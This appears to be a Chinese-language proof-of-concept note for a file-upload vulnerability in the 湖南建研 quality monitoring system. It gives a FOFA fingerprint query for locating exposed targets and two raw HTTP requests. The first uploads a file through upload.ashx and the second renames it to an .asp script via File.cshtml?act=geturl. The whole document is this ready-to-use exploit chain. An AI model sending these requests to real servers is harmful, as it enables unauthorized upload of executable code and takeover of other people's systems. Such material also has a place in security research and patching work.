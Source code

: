 ## 湖南建研质量监测系统upload.ashx文件上传漏洞

## fofa
```
body="/Content/Theme/Standard/webSite/login.css"
```

## poc
```
POST /Applications/Attachment/upload.ashx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 335

--------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR
Content-Disposition: form-data; name="file";filename="123.txt"

123
--------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR
Content-Disposition: form-data; name="_upload_guid"
123
--------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR--
```

![f846bf63220b1ecd0a62c03c66fb0924](../../images/e277303f-001d-4fa3-9f2a-a8aac3d65aba.png)

### 将文件复制改名

```
POST /Standard/Editor/API/File.cshtml?act=geturl HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Forwarded-Proto: 
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 63

filename=/tempData/12345667.asp&filetplpath=/tempData/123.txt
```

![271f4e479da4984ce1d40aebe30dfcc2](../../images/65de9612-4beb-47ef-80e0-c8a34aacf017.png)
